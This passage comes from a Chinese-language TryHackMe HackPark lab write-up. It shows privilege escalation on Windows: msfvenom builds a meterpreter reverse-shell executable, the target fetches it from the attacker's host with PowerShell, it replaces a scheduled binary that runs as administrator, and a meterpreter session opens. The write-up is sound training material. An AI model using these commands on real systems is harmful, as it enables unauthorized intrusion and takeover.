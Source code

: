       [*] Started reverse TCP handler on 10.11.61.123:6666 
      ```

   + 由之前winPEAS执行结果可知，WindowsScheduler定时运行，且以管理员权限调用Message.exe,因此可以用msfvenom生成的Message.exe来替换原来的进行提权

      ```
      ┌──(kali㉿kali)-[~/桌面/THM/HackPark]
      └─$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.61.123 LPORT=6666 -f exe -o Message.exe
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      Found 1 compatible encoders
      Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
      x86/shikata_ga_nai succeeded with size 381 (iteration=0)
      x86/shikata_ga_nai chosen with final size 381
      Payload size: 381 bytes
      Final size of exe file: 73802 bytes
      Saved as: Message.exe      
      ```
      ```
      C:\Windows\Temp>powershell -c wget "http://10.11.61.123:8000/Message.exe" -outfile "Message.exe"
      dir
      C:\Windows\Temp>dir
      ···
      12/09/2023  02:06 AM            73,802 Message.exe
      ···
      ```
      ```
      C:\Program Files (x86)\SystemScheduler>copy C:\Windows\Temp\Message.exe Message.exe
      copy C:\Windows\Temp\Message.exe Message.exe
      Overwrite Message.exe? (Yes/No/All): dir
      dir
      Overwrite Message.exe? (Yes/No/All): yes
      yes
            1 file(s) copied.

      C:\Program Files (x86)\SystemScheduler>dir
      dir
      ···
      12/09/2023  02:06 AM            73,802 Message.exe
      ···
      ```
   + 替换完成新的meterpreter shell 提权成功：

      ```
      msf6 exploit(multi/handler) > run

      [*] Started reverse TCP handler on 10.11.61.123:6666 
      [*] Sending stage (175686 bytes) to 10.10.192.130
      [*] Meterpreter session 1 opened (10.11.61.123:6666 -> 10.10.192.130:49249) at 2023-12-09 05:18:34 -0500

      meterpreter > shell
      Process 2136 created.
      Channel 1 created.
      Microsoft Windows [Version 6.3.9600]
      (c) 2013 Microsoft Corporation. All rights reserved.
